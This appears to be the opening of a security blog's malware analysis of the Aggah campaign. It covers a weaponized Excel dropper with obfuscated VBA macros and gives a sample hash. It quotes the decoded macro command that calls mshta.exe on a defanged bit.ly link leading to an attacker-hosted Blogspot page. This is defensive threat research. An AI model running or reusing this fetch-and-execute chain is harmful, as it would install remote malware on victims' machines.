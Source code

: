 

Yoroi Blog






Marco Ramilli Blog








Downloads






About us






Contacts






English







Italiano






APT or not APT? What's Behind the Aggah Campaign
	09/24/2019
Introduction
During our threat monitoring activities, we discovered an interesting drop chain related to the well-known Aggah campaign, the ambiguous infection chain observed by Unit42 which seemed to deliver payloads potentially associated with the Gorgon Group APT. After that, we discovered other malicious activities using the same TTPs and infrastructures, for instance in “The Enigmatic “Roma225” Campaign” and “The Evolution of Aggah: From Roma225 to the RG Campaign” reports. 
But, despite the very similar infection chain, this latest attacks revealed a curious variation of the final payload, opening up to different interpretations and hypothesis about the “Aggah” activities.
Technical Analysis
Hash7f649548b24721e1a0cff2dafb7269741ff18b94274ac827ba86e6a696e9de87ThreatExcel document DropperBrief DescriptionFirst stage of Aggah campaignSsdeep768:4Sk3hOdsylKlgxopeiBNhZFGzE+cL2kdAJrqYtAd/fBuzPRtUb:hk3hOdsylKlgxopeiBNhZFGzE+cL2kd3
Table 1. Sample’s information
As in most infections, the multi-stage chain starts with a weaponized Office document containing VBA macro code. It immediately appears obfuscated and after a de-obfuscation phase, we discovered it invokes the following OS command:
mshta.exe http://bit[.ly/8hsshjahassahsh
The bit.ly link redirects on the attacker’s page hosted on Blogspot at hxxps://myownteammana.blogspot[.com/p/otuego4thday.html. This is the typical Aggah modus operandi. In fact, the webpage source code contains a JavaScript snippet designed to be executed by the MSHTA engine.
Figure 1. HTA script hidden into Blogspot page
